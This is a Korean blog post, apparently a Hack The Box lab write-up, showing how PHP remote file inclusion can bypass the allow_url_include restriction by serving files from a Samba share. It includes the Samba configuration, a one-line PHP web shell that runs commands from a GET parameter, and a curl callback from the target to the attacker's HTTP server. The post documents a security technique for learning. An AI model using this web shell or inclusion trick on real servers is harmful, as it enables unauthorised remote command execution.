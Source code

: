 ```yaml
---
title: RFI PHP Application bypass Remote URL
categories: [Theory, Web]
tags: [RFI, PHP, Web, Samba, SMB]
image:
    path: /assets/image_post/20240214193626.png
---
```


Hack the box 문제 풀이 중 RFI를 테스트 하다 아래와 같은 내용을 확인하였다.
![](../assets/image_post/20240212155715.png)

관련해서 내용을 찾아보니 php 구성 시 allow_url_include는 기본적으로 off 되어 원격 http 또는 ftp url을 로드하지 않도록 하여 공격을 방지한다. 
> Link: https://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html

하지만 allow_url_include와 allow_url_open가 모두 off로 설정 되어 있더라도 SMB URL 로드는 차단하지 않는다. PHP의 이러한 특징은 smb 공유를 통해 원격으로 php 웹쉘을 로드하는데 사용할 수 있다.


테스트를 위해 samba를 설치한다.
``` bash
# apt install samba
# smbpasswd -a 사용자이름
```

이후 공유하고자 하는 정보를 지정해야하며, 나의 경우 아래와 같이 `/etc/samba/smb.conf`의 맨 밑에 추가하였다. `systemctl restart smbd`를 통해 변경사항까지 반영해주어야 한다.
``` bash
[rfi]
   comment = rfi
   path = /home/user/rfi
   browseable = yes
   guest ok = yes
```

> NT_STATUS_ACCESS_DENIED 에러 해결: [링크](https://read-min.github.io/posts/linux-samba-install-NT_STATUS_ACCESS_DENIED/)


구성이 완료되었으니 실제 접근이 가능한지 테스트 해보자. 테스트 환경의 경우 [HTB Responder Write-up](https://read-min.github.io/posts/HTB-Responder-Write-up/) 에서 제공되는 서버이다. 우선 간단한 정보 조회 성 info.php를 만들어 공유 경로에 위치시킨다.
``` bash
┌──(root㉿kali)-[/home/user/rfi]
└─# cat info.php
<?php phpinfo(); ?>
```

대상 서버에서 공유된 경로(ex://10.10.15.52/rfi/info.php)에 접근하도록 지정 시 아래와 같이 php info가 정상적으로 나타난다.
![](../assets/image_post/20240214192651.png)

이제 실제 oneline webshell을 통해 내부 구조를 파악해보자. 아래와 같이 설정 시 GET 메소드로 cmd 라는 변수를 통해 명령어를 입력 받고 실행한다.
``` bash
┌──(root㉿kali)-[/home/user/rfi]
└─# cat rfi.php
<?php system($_GET['cmd']); ?>
```

대상 서버에서 rfi.php로 접근하며 인자로 whoami를 준 경우 아래와 같이 나타난다.
![](../assets/image_post/20240214194219.png)

조금 더 나아가 한줄웹쉘을 통해 http를 호출하는 코드도 가능하다. 아래와 같이 `cmd=curl {url}`을 입력할 경우 접근 되는 것을 확인 할 수 있다. 예시의 경우 python으로 간단한 http 서버를 띄우고 접근한 것이다.

``` bash
┌──(root㉿kali)-[/home/user]
└─# python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.94.209 - - [14/Feb/2024 05:44:41] "GET / HTTP/1.1" 200 -
```

![](../assets/image_post/20240214194630.png)

이와 같이 allow_url_include가 false더라도 samba를 통해 접근 가능하게 할 수 있다.
